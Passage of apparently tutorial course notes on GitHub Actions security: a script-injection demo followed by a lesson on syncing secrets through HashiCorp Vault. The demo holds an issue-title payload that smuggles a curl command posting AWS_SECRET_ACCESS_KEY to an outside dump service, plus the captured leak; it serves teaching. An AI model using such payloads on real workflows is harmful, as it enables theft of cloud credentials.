



# In the workflow step:
bug"; curl --request POST --data anything=$AWS_SECRET_ACCESS_KEY https://httpdump.app/dumps/c2a7d181-5768-4cb5-a930-4d016c38d7d2

Issue is about a bug!
Assigning Label - BUG
```

On the dump service, you’ll see your secret appear in the POST data:

```plaintext theme={null}
POST /dumps/c2a7d181-5768-4cb5-a930-4d016c38d7d2
Received at: 2023-10-25 07:55:58
Post Parameters
anything: kwlvBBZIMUyap7XzquB/ScxfPIDouINVszfF+
```

<Callout icon="triangle-alert">
  Unvalidated event data can execute arbitrary code on your runner and expose sensitive secrets like `AWS_SECRET_ACCESS_KEY`. Always sanitize or escape inputs before using them in shell commands.
</Callout>

***

In the next lesson, we’ll explore best practices and built-in GitHub Actions features to safely handle untrusted inputs and prevent script injection attacks.

<CardGroup>
  <Card title="Watch Video" icon="video" href="https://learn.kodekloud.com/user/courses/github-actions-certification/module/a3e810f5-af92-4e1c-ac54-bdf50ddbe9cf/lesson/da95a894-aa9b-4014-92f3-3075b0426f86" />
</CardGroup>


# Securing Secrets using HashiCorp Vault

Source: https://notes.kodekloud.com/docs/GitHub-Actions-Certification/Security-Guide/Securing-Secrets-using-HashiCorp-Vault/page

This article discusses integrating HashiCorp Vault with GitHub Actions for centralized secret management and automation of secret synchronization.

Managing sensitive credentials across multiple repositories can be challenging. GitHub Actions stores secrets at the repository or environment level, but lacks versioning and centralized policy controls. By integrating HashiCorp Vault, you can maintain a single source of truth and automate secret synchronization across all your workflows.

## Why Centralize Secret Management?

GitHub Actions secrets are easy to configure but can become a maintenance burden as your organization scales:

| Storage Type      | Versioning | Access Control                      | Maintenance Overhead   |
| ----------------- | ---------- | ----------------------------------- | ---------------------- |
| GitHub Repository | No         | Per-repo / per-environment policies | Duplicate in each repo |
| HashiCorp Vault   | Yes        | Fine-grained, dynamic ACLs & tokens | Centralized, auditable |

By standardizing on Vault, you gain:

* Automatic versioning and rotation
* Detailed audit logs
* Consistent policies across environments

<Frame>
  
</Frame>

## Defining a GitHub Actions Workflow

Create a workflow file under `.github/workflows/vault-demo.yaml` that manually triggers and checks for `AWS_API_KEY`:

<Frame>
  
</Frame>

```yaml theme={null}
name: Vault Demo
on:
  workflow_dispatch:

jobs:
  echo-vault-secret:
    runs-on: ubuntu-latest
    steps:
      - name: Verify AWS_API_KEY exists
        run: |
          if [[ -z "${{ secrets.AWS_API_KEY }}" ]]; then
            echo "::error::Secret Not Found"
            exit 1
          else
            echo "::notice::Secret Found"
            exit 0
          fi
```

<Callout icon="lightbulb">
  Ensure the workflow file is committed to the `main` branch (or your default branch) under `.github/workflows`.
</Callout>

When `AWS_API_KEY` is missing, the run fails:

<Frame>
  
</Frame>

```bash theme={null}
